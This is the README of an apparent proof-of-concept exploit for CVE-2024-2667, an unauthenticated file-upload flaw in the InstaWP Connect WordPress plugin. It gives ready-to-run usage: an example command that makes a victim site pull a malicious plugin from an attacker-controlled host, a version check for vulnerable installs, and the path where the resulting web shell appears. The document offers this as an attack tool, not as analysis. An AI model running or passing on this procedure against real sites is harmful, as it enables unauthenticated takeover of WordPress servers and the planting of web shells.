 # CVE-2024-2667-Poc

## Description
The InstaWP Connect – 1-click WP Staging & Migration plugin for WordPress is vulnerable to arbitrary file uploads due to insufficient file validation in the /wp-json/instawp-connect/v1/config REST API endpoint in all versions up to, and including, 0.1.0.22. This makes it possible for unauthenticated attackers to upload arbitrary files.

# Script Usage Guide

### Install Requirements
| Description                                | Details                                                                                     | Icon  |
|--------------------------------------------|---------------------------------------------------------------------------------------------|-------|
| Install Required Libraries                 | Use `pip` to install the necessary Python libraries: `requests` and `beautifulsoup4`.      | 🛠️   |
| Command to Install                         | Run: `pip install requests beautifulsoup4`.                                                | 📥   |

### Run the Script
| Description                                | Details                                                                                     | Icon  |
|--------------------------------------------|---------------------------------------------------------------------------------------------|-------|
| Execute the Script                         | Run the script using the command line with required arguments.                              | 🚀   |
| Required Arguments                         | - `-up`: Plugin URL (e.g., `http://attacker-domain/malicious-plugin.zip`).                  |
|                                            | - `-u`: Target WordPress URL (e.g., `http://victim-domain/`).                               | 🔧   |
| Example Command                            | `python main.py -up http://attacker-domain/malicious-plugin.zip -u http://victim-domain/`   | 📜   |

### Check Vulnerability
| Description                                | Details                                                                                     | Icon  |
|--------------------------------------------|---------------------------------------------------------------------------------------------|-------|
| Version Check                              | The script examines the `readme.txt` file for the version of the target plugin.             | 🔍   |
| Vulnerable Version                         | If the version is `<= 0.1.0.22`, the script prints: `The site is vulnerable.`              | ⚠️   |
| Safe Version                                | If the version is `> 0.1.0.22`, the script prints: `The site is not vulnerable.`            | ✅   |


###  Shell Location
| Description                                | Details                                                                                     | Icon  |
|--------------------------------------------|---------------------------------------------------------------------------------------------|-------|
| Shell Path                                 | If the upload is successful, the shell will be accessible at:                               | 🐚   |
|                                            | `wp-content/plugins/instawp-connect/shell.php`.                                             |








### usage
```
usage: CVE-2024-2667.py [-h] -up URL_PLUGIN -u URL_TARGET

The InstaWP Connect – 1-click WP Staging & Migration plugin for WordPress is vulnerable to arbitrary file uploads due
to insufficient file validation in the /wp-json/instawp-connect/v1/config REST API endpoint in all versions up to, and
including, 0.1.0.22. This makes it possible for unauthenticated attackers to upload arbitrary files.

options:
  -h, --help            show this help message and exit
  -up URL_PLUGIN, --url_plugin URL_PLUGIN
                        URL of the plugin (e.g., http://attacker-domain/malicious-plugin.zip).
  -u URL_TARGET, --url_target URL_TARGET
                        URL of the target WordPress site (e.g., http://victim-domain/).
```

